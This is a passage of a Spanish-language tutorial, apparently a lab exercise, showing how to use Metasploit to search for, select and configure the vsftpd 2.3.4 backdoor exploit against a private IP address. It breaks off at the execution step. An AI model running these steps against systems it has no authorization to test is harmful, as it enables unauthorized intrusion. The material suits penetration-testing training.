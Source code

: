 Te saldrá algo como:

```
msf6 >
```

---

#### ✅ PASO 2️⃣ Buscar exploit

```bash
search vsftpd
```

✅ Verás algo como:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### ✅ PASO 3️⃣ Usar exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Prompt cambia:

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

---

#### ✅ PASO 4️⃣ Ver opciones

```bash
show options
```

Verás:

```
RHOSTS => Target IP
RPORT => FTP port (default: 21)
```

---

#### ✅ PASO 5️⃣ Configurar el objetivo

```bash
set RHOSTS 192.168.1.10
```

---

#### ✅ PASO 6️⃣ Ejecutar el exploit
